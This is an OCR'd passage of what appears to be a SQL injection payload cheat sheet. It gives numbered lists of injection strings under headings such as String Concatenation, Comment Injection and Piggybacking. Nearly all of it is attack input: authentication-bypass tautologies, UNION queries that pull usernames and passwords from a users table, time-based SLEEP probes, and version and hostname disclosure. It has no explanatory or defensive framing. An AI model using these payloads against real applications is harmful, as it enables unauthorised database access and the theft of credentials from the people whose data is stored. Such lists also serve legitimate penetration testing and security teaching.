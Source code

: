       
```
1. ' OR 1=1 /* 
2. ' UNION SELECT 1, 2, 3 -- 
3. ' OR 'x'='x' /* 
4. ' OR 'a'='a' -- 
5. ' OR '1'='1' /* 
6. ' OR SLEEP(5) AND '1'='1' -- 
7. ' OR '1'='1' AND '1'='1' /* 
8. ' UNION ALL SELECT NULL, NULL, NULL # 
9. ' UNION SELECT NULL, 'test', 'test' -- 
10. ' AND TRUE ORDER BY 1 -- 
```
    

9. String Concatenation

      
```
1. ' OR (SELECT username FROM users WHERE username = CONCAT('admin', '')) = 'admin' -- 
2. ' OR (SELECT password FROM users WHERE username = CONCAT('admin', '')) = 'password' -- 
3. ' UNION SELECT CONCAT(username, ':', password) FROM users -- 
4. ' AND (SELECT CONCAT('ID: ', id) FROM users) LIKE '%1%' -- 
5. ' AND (SELECT CONCAT(column, ':', val) FROM (SELECT username as column, password as val FROM users) derived) LIKE '%admin%' -- 
6. ' AND (SELECT CONCAT('Length: ', LENGTH(username)) FROM users) = 'Length: 5' -- 
7. ' AND (SELECT CONCAT('Value: ', (SELECT COUNT(*) FROM users))) = 'Value: 1' -- 
8. ' OR (SELECT CONCAT(version())=version()) -- 
9. ' OR (SELECT CONCAT(id, '-', username) FROM users) = '1-admin' -- 
10. ' OR (SELECT CONCAT((SELECT COUNT(*) FROM users), ' Exists')) = '1 Exists' -- 
```
    

10. Comment Injection

```    

1. ' -- 
2. # -- 
3. ' /* comment */ 
4. '/* 
5. ' OR '1'='1' ; # 
6. ' OR '1'='1' -- abc 
7. ' OR '1'='1' /* comment */ 
8. ' UNION SELECT 'a'-- 
9. ' UNION SELECT user(), password FROM users /* 
10. ' UNION SELECT null, username FROM users# 
```
    

1. Piggybacking

      
```
1. ' OR (SELECT COUNT(*) FROM users) > 0; -- 
2. ' OR (SELECT IF(1=1, 1, 0))=1; -- 
3. ' OR (SELECT TOP 1 password FROM users) = 'admin'; -- 
4. ' OR (SELECT MIN(id) FROM users) IS NOT NULL; -- 
5. ' OR (SELECT 1 FROM dual) = 1; -- 
6. ' OR EXISTS(SELECT * FROM users WHERE username='admin'); -- 
7. ' OR (SELECT COUNT(*) FROM orders WHERE status='active') > 0; -- 
8. ' OR (SELECT user() LIMIT 1) IS NOT NULL; -- 
9. ' OR (SELECT @@hostname) = 'localhost'; -- 
10. ' OR (SELECT SLEEP(5)) IS NOT NULL; -- 
```
    